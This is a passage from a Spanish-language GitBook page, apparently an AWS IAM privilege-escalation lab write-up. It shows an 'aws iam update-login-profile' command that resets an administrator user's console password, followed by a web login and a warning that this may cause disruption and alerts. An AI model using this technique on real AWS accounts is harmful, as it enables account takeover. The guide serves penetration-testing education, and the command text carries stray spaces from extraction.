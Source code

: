 <figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Se tiene que hacer uso del permiso **update-login-profile** :&#x20;

{% code overflow="wrap" %}
```
aws iam update-login-profile --user-name Spartan- Administrador --password Password321! --no-password- reset-required --profile privesc6
```
{% endcode %}

{% hint style="danger" %}
Al realizar un cambio o actualización de la contraseña de cualquier usuario, puede generar una disrupción del servicio y generar una alerta.
{% endhint %}

Finalmente ingresar por medio web como el anterior caso

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>



## IAM:AddUserToGroup
